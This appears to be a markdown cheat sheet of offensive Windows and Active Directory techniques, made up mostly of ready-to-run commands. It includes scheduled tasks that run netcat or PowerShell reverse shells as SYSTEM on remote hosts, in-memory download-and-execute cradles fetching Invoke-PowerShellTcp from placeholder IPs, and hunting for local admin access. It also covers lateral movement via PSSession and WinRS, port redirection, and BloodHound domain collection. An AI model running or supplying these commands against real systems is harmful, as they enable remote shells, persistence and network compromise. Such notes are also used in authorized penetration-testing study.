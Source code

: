 ## Interesting Tools and Tricks

- [gwmi Commands](#gwmi-commands)
- [Schedule Tasks in Remote Computer](#schedule-tasks-in-remote-computer)
- [Invoke-PowerShellTcp.ps1](#-invoke-powershelltcpps1-)
- [Find-PSRemotingLocalAdminAccess.ps1](#-find-psremotinglocaladminaccessps1-)
- [Find-WMILocalAdminAccess.ps1](#-find-wmilocaladminaccessps1-)
- [Enter-PSSession](#enter-pssession-)
- [Invoke-Command](#invoke-command-)
- [WinRS.exe](#winrsexe)
- [Loader.exe](#loaderexe)
- [CMD Intersting Commands](#cmd-intersting-commands)
    + [Task Scheduling](#task-scheduling)
    + [Port Redirection](#port-redirection)
- [File Copy Using Powershell](#file-copy-using-powershell)
- [Run WMI Commands](#run-wmi-commands)
- [BloodHound](#bloodhound)


### gwmi Commands
---
```powershell
PS C:> gwmi -class win32_operatingsystem -ComputerName <computer_fqdn>
```

### Schedule Tasks in Remote Computer
---
```powershell
# Create the task
C:> schtasks /create /S <host_fqdn> /SC Weekly /RU “NT Authority\SYSTEM” /TN “<TASK_NAME>” /TR “C:\Users\Public\Downloads\nc.exe -e cmd <IP> <PORT>”

# Run the task
C:> schtasks /Run /S <host_fqdn> /TN “<TASK_NAME>”
```
### `Invoke-PowerShellTcp.ps1`
---
Opens a shell. Modified Version of the original `Invoke-PowerShellTcp_Old.ps1`. Replacing the main function name to `Power`.

Parameters:
- `Reverse`: To open reverse shell
- `Bind` : Creates a bind shell
- `IPAddress`
- `Port`

Example:
```powershell
C:> . Invoke-PowerShellTcp.ps1      
C:> Power -Reverse -IPAddress 192.168.1.1 -Port 1111
```
To download and run from memory, both options:
```powershell
C:> powershell.exe -c iex ((New-Object Net.WebClient).DownloadString('http://<IP>/Invoke-PowerShellTcp.ps1'));Power -Reverse -IPAddress <IP> -Port 443
C:> powershell.exe iex (iwr http://<IP>/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress <IP> -Port 443
```

### `Find-PSRemotingLocalAdminAccess.ps1`
---
To search for local admin access on machines in a domain or local network for the current user.
Parameters:
- `ComputerFile`: File with computers to check
- `StopOnSuccess`: Stops when found one
Example:
```powershell
PS C:> . .\Find-PSRemotingLocalAdminAccess.ps1       # Import module
PS C:> Find-PSRemotingLocalAdminAccess               # Run the function
COMPUTER-WITH-ACCESS
PS C:>
```
### `Find-WMILocalAdminAccess.ps1`
---
Runs a WMI command against the sepcified list of computers. Since, by-default, we need local administrative access on a computer to run WMI commands, a success for this fucntions means local administrative access.

parameters: Same as previous tool
```powershell
PS C:> . .\Find-WMILocalAdminAccess.ps1
PS C:> Find-WMILocalAdminAccess
SystemDirectory : C:\Windows\system32
Organization    :
BuildNumber     : 14393
RegisteredUser  : Windows User
SerialNumber    : 00377-80000-00000-AA544
Version         : 10.0.14393
The current user has Local Admin access on: SERVER.domain.local
SystemDirectory : C:\Windows\system32
Organization    :
BuildNumber     : 14393
RegisteredUser  : Windows User
SerialNumber    : 00377-80000-00000-AA549
Version         : 10.0.14393
The current user has Local Admin access on: COMPUTER.domain.local
PS C:>
```
### Enter-PSSession
---
Starts an interactive session with a single remote computer. During the session, the commands that you type run on the remote computer, just as though you were typing directly on the remote computer. You can have only one interactive session at a time.
```powershell
C:> Enter-PSSession <host>
C:> Enter-PSSession -ComputerName <host>
```
### Invoke-Command
---
Runs commands on a local or remote computer and returns all output from the commands, including errors.
```powershell
C:> invoke-command -ComputerName WCOMPUTER -ScriptBlock {whoami}

# Created Session
C:> $sess = New-PSSession <host>
C:> Invoke-Command -ScriptBlock {whoami}.ps1 -Session $sess
```
### WinRS.exe
---
```powershell
C:> winrs.exe -r:COMPUTER cmd
```
### Loader.exe
---
```powershell
C:> Loader.exe -path http://<ip>/<file>.ps1
```
### CMD Intersting Commands
---
##### Task Scheduling
---
```powershell
# Create task to run a reverse shell
C:> schtasks /create /S <host> /SC Weekly /RU "NT Authority\SYSTEM" /TN "<task_name>" /TR "powershell.exe -c 'iex (New-ObjectNet.WebClient).DownloadString(''http://<IP>/Invoke-PowerShellTcpEx.ps1''')'"

# Force task to run
C:> schtasks /Run /S <host_fqdn> /TN "<task_name>"
```
##### Port Redirection
```powershell
# Redirect connection to local ip and port to remote ip andp ort
C:> netsh interface portproxy add v4tov4 listenport=<local_port> listenaddress=<local_IP> connectport=<remote_port> connectaddress=<remote_IP>"
```
### File Copy Using Powershell
```powershell
# From a URL to a file
C:> iwr http://<IP>/Loader.exe -OutFile C:\Users\Public\Loader.exe
```
### Run WMI Commands
---
```powershell
C:> gwmi -Class win32_computersystem -ComputerName dcorp-dc
```
### BloodHound
---

Setup:
- Install and run neo4j:
```powershell
C:> neo4j.bat install-service
C:> neo4j.bat start
```
- Go to http://localhost:7474 and log using `neo4j` and `neo4j`.
- Change the password for `neo4j` user to the desireed one
- Run `BloodHound.exe` from `BloodHound-win32-x64`
- Will ask for credentials: bolt://localhost:7687  -  neo4j  -  PASSWORD

Run Collectors:
- Powershell:
```powershell
C:> . .\SharpHound.ps1
C:> Invoke-BloodHound -CollectionMethod All -Verbose
```
To avoid asking DC, use:
```powershell
C:> Invoke-BloodHound -CollectionMethod All -ExcludeDC
```

